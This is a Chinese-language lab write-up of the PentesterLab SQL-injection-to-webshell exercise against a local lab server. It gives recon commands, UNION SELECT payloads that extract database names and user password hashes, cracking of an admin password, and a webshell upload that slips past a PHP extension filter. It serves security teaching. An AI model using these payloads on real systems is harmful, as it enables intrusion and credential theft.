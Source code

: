 # chap0x07 SQL注入
## 网络拓扑
* 服务器 SQL_Server: 网络模式为NAT网络

![](01服务器.png)

* 攻击者 SQL_Attacker：网络模式为NAT网络

![](02攻击者.png)

* 攻击者可以ping通服务器

![](04攻击者ping.png)

* 服务器可以ping通攻击者

![](05服务器ping.png)

## 实验过程
* 在攻击者端扫描服务器IP
```txt
netdiscover -r 10.0.0.9/24
 ```
![](03扫描服务器IP.png)
 

#### 指纹识别
* 收集有关Web应用程序和正在使用的技术信息。
* 用nmap扫描服务器，查看端口情况和MAC地址

![](06nmap扫描.png)

* 浏览器查看网页的源代码，发现是PHP写的view-source

![](07网页源码.png)

#### Burpsuite查看http响应包头，提取更多有效信息
* 浏览器设置代理

![](08浏览器设置代理.png)

* 设置代理后无法访问网页，需要配置请求转发，地址端口与浏览器代理设置一致

![](09配置转发.png)

* 关闭Intercept

![](10关闭intercept.png)

* 攻击者浏览器访问服务器
```txt
http://10.0.0.9
```
![](11访问服务器.png)

* 对Burpsuite劫持http的request分析，发现服务器是建立在Apache2.0上的，网页使用的是PHP/5.3.3-7+squeeze14

![](12burpsuite分析.png)

* 使用Wfuzz暴力检测Web服务器上的目录和页面
```txt
find / -name big.txt
cd /usr/share/wfuzz
wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://10.0.0.9/FUZZ
```
![](30wfuzz.png)

#### SQL注入
##### 检测
* 基于整数的检测
* 对cat.php进行SQL注入测试，显示了图片，说明存在漏洞

![](13.png)

* 访问```http://10.0.0.9//cat.php?id=1``` 和 ```http://10.0.0.9//cat.php?id=2-1``` 生成的是一个页面，说明数据库直接做了减法，可以SQL注入

![](14.png)

* 基于字符串的检测
* 奇数个单引号```http://10.0.0.9//cat.php?id=1'```将引发错误，偶数个单引号则不会

![](15.png)

* 加上```--```表示注释```http://10.0.0.9//cat.php?id=2 --'or id = 3```

![](16.png)

##### 注入
* 猜测列数：
* 使用UNION：UNION前后的select语句的列数需保持一致，否则报错```http://10.0.0.9/cat.php?id=2 UNION SELECT 1,2,3```

![](17union.png)

```http://10.0.0.9/cat.php?id=2 UNION SELECT 1,2,3,4```

![](18union2.png)

* 使用order by：order by 后面的值必须小于或等于数据库中的列数，否则报错```http://10.0.0.9/cat.php?id=2 order by 4```

![](19order.png)

```http://10.0.0.9/cat.php?id=2 order by 5```

![](20order2.png)

* 所以可以猜测此数据库有4列，并且猜测需要的数据信息在第2列

#### 信息获取
* 获取数据库版本信息```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,@@version,3,4```

![](21version.png)

* 当前用户```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,current_user,3,4```

![](22当前用户.png)

* 当前数据库```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,database(),3,4```

![](23当前数据库.png)

* 当前数据库中所有表的名称```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables```

![](24所有表名.png)

![](25所有表名2.png)

* 当前数据库中所有列的名称```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns```

![](26所有列名.png)

* 表名和列名的对应关系```http://10.0.2.11/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```

![](27表名和列名对应关系.png)

* 获取用于访问管理页面的用户名和密码。通过表名和列名的对应关系，发现列里含有password， id ，login列

![](28用户信息.png)

* 获取用户名和密码的md5序列```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,concat(login, ':'' ,password),3,4 FROM users ```

![](29用户密码.png)

* 在线破解md5序列得到密码为```P4ssw0rd```

![](31在线破解.png)

#### 登录后台

* 获取用户名、密码后，尝试登录后台

![](32尝试登录.png)

* 登录成功，此处的```new.php```可以用于上传Webshell

![](33登录.png)

* 构建Webshell文件```shell.php```，执行 GET 请求中 cmd 参数的值

![](34webshell.png)

* 尝试上传```shell.php```失败，说明网站禁止直接上传php文件

![](35上传php.png)

![](36禁止php.png)

* 更改Webshell文件后缀```shell.php.test```，绕过检测，上传成功

![](37绕过.png)

![](38成功.png)

* 测试Webshell

![](39测试.png)

* 获取系统用户信息

![](40系统用户信息.png)

* 获取系统版本信息

![](41系统版本信息.png)

* php信息

![](42php信息.png)

* php配置文件中的特定设置

![](43php配置.png)


参考链接
* https://github.com/CUCCS/2018-NS-Public-FLYFLY-H/pull/8
* https://github.com/CUCCS/2018-NS-Public-jckling/pull/10
* https://pentesterlab.com/exercises/from_sqli_to_shell/course